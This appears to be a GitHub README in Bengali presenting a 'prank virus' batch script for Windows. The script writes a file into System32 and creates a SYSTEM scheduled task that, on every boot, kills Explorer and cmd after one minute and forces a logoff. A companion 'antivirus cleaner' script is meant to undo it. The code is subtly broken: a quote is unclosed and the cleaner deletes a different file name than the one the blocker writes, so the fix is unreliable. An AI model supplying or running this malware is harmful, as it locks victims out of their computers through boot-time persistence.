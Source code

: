 # Pc-Stop-virus-

✅ আমাদের প্রয়োজন অনুযায়ী BAT Script:
(virus_block_permanent.bat) ফাইল এর কোড দেওয়া হল

``
@echo off
:: Path where the blocking script will live
set "blocker=%windir%\System32\_block.live

:: Write the actual blocking script
echo @echo off > "%blocker%"
echo timeout /t 60 /nobreak >nul >> "%blocker%"
echo taskkill /f /im explorer.exe >> "%blocker%"
echo taskkill /f /im cmd.exe >> "%blocker%"
echo shutdown /l /f >> "%blocker%"

:: Schedule it to run every boot
schtasks /create /tn "SystemBlocker" /tr "%blocker%" /sc onstart /ru SYSTEM /f

:: Notify user
echo.
echo ======================================================
echo   !!! System is now infected !!!
echo   On every boot, it will work only 1 minute...
echo   After 1 minute, your system will go dark!
echo   To fix, run the antivirus cleaner within 1 minute.
echo ======================================================
pause




🧯 Antivirus Cleaner Script: (antivirus_fix.bat)
``
@echo off
:: Delete the scheduled task
schtasks /delete /tn "SystemBlocker" /f

:: Delete the blocking script
del %windir%\System32\_block.bat /f

:: Restart Explorer UI
start explorer.exe

:: Success message
echo.
echo ================================
echo ✅ Virus removed successfully!
echo Your system is now clean.
echo ================================
pause
💡 কীভাবে এটা কাজ করবে:
ধাপ	ব্যাখ্যা
🔹 virus_block_permanent.bat চালাও	এটা blocking স্ক্রিপ্ট তৈরি করে ও schedule করে
🔹 Computer Restart করো	শুধু ১ মিনিট সব কাজ করবে
🔹 ১ মিনিট পরে	system logout বা UI বন্ধ হয়ে যাবে
🔹 আবার Restart দিলে	আবার সেই একই ১ মিনিট timer
✅ যদি antivirus_fix.bat ১ মিনিটের মধ্যে চালাও	তাহলে task delete হয়ে যাবে, system ঠিক হয়ে যাবে

⚠️ গুরুত্বপূর্ণ সতর্কতা:
এটি শুধুমাত্র VM বা Test PC-তে চালাও!

